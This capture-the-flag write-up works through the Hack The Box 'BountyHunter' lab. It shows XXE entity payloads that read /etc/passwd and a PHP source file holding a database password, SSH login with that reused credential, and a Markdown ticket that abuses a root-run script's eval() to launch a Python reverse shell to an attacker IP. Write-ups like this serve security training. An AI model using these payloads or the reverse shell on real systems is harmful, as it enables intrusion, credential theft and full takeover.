# 💵 Bounty Hunter Writeup



Right off the bat we want to start with an nmap scan to get a sense of what services are running on this box. To do this we run our trusty -sV -sC options to use default scripts and identify versions of services.



Almost immediately we get feedback from nmap saying it can't tell if the box is up because it is blocking our ping probes. I immediately went back to HTB to make sure I was connected and the box was for sure up and running. After confirming this I ran nmap with the added -Pn that is recommended to mark the host as up.



After letting this scan run for a few seconds we get these results back. There are a good number of ports here but the main ones we want to look at are the ones marked as open. We can see port 22 open for OpenSSH version 8.2p1, which is a secure version. All we can do with this service is brute force the usernames and passwords so we will save that for later and continue looking around.

The other open port is port 80 which is being used by an Apache http server. This is very interesting and something we definitely should look at. First I fired up dirbuster and set it running then I opened up Firefox and plugged in the IP and was greeted with the homepage:



Doing some manual poking around we can find a contact form at the bottom of this homepage. Great! Some user input! Not so fast. It doesn't function and doesn't even send a POST request back to the server. After some more poking around we find /portal.php, which is linked in the top right of the homepage.



As you can see, the portal is under development and there is a link to another form that we can "test". This is a telltale sign that the form being linked probably hasnt been vetted very well yet. Lets check it out.



Looks like a simple form. Lets check if its connected to anything. Opening developer tools we can choose the network tab and view any traffic being sent to and from our browser. I just filled out the form with some random variables just to test it out and clicked submit...



It is connected! Now that is definitely not plaintext being sent to the server so lets figure out how the data is being encoded and what format its being put into. To do this I copied the data into a tool call [CyberChef](https://gchq.github.io/CyberChef/).

In CyberChef I tinkered around with a few options to see what I could decode. The first, and most obvious, is that it needs to be URL decoded. The signs for this is that special characters are encoded with %xx, an example is '+' becomes '%2B'. After getting it into the right format I put the next piece of the puzzle together and added base64 decode which allowed me to see the data in plaintext.



In the output section we can see that the data is being sent in xml formatting. This is interesting because there is a well known exploit that we can try using this formatting called [XXE](https://owasp.org/www-community/vulnerabilities/XML\_External\_Entity\_\(XXE\)\_Processing).

Lets try out putting some commands into the data and re sending the request. For reference here is the payload I created:



If you 'edit and resend' the request we orginally got the encoded data from we can replace the data with the new data we created and send it. What we want to see returned is the content of /etc/passwd.



BOOM! We get the contents of /etc/passwd printed out. Lets have a look around and see what files we can read and get info from. After trying to get some data like root.txt or config files I have nothing and am stuck. I know I am supposed to use this to get some set of credentials or a hint to what to do next. I looked over at dirbuster, which was still running, and saw there was a db.php. I tried to load it in my browser but got nothing back. There had to be something interesting on the backend though so lets try to grab it with the XXE vulnerability we found.

requesting the contents of the file I got back a different response than the ones I didnt have permssion to review. This suggested I should be able to get the contents but something was restricting it from printing it out on the webpage. A trick we could try from here is to try to encode it as base64 and have that print out instead. To do this I switched:

```
<!ENTITY file SYSTEM "file:///var/www/html/db.php">
]>
```

To:

```
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
```

I plugged it in and pressed send...



Success! We got a base64 encoded return. Lets see what it says.

The decoded result is:

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

We got creds! Now what can we use them for? Well there was an ssh server in the nmap scan we ran earlier so lets see if the creds are the same.

I tried logging in with admin as the username, no success. What about test? Nope. Bounty? Again no. So what could the username be?

Luckily I was keeping note of the data I was getting and realized I had gotten the passwd file contents earlier and I could see the users on the device from that. Looking at it we can see there is a user named 'development'. I tried that username with the password found in the db.php file and BAM! We got a shell.

From this user we get the user flag and can submit that. In the users home directory is another file along with the flag though called contract.txt.



As you can see, the file contains a note from 'John' saying that he setup permissions for this user to figure out why certain tickets have been failing validation. Lets see what type of permissions...

Running 'sudo -l' we get back:

> User development may run the following commands on bountyhunter: (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain\_inc/ticketValidator.py

Looks like we have root permissions, without a password, to run a python script. This is an easy priv esc if we can write to the python script so lets go check it out.



Checking the permissions it looks like we don't have write permissions for this file, damn. But we can read it, so lets see what it is doing and if we can manipulate it another way.

Reading through it looks like it takes in a MD file and evaluates if its a valid ticket or not. Because it takes in input lets see if we can trick it into executing something as root.

Looking through the script there seems to only be one exploitable section and its the eval function:

```
if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
```

To get to this function we are going to have to format a ticket correctly so it reaches the initial if statement, passes that, then the next line has to start with '\*\*' and the integer following this had to have a modulo of 4. Using this info and some of the example invalid tickets that are in the folder in the same directory we can create our own ticket with our own command to execute. Mine looked like this:

```
# Skytrain Inc
## Ticket to test
__Ticket Code:__
**102+ 10 == 112 and exec('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')
```

I have it sending a shell back to me via python. Now all I should have to do is setup a listener with nc and execute the python script as root with the MD file I made as the input.



PWNED!


GG HTB
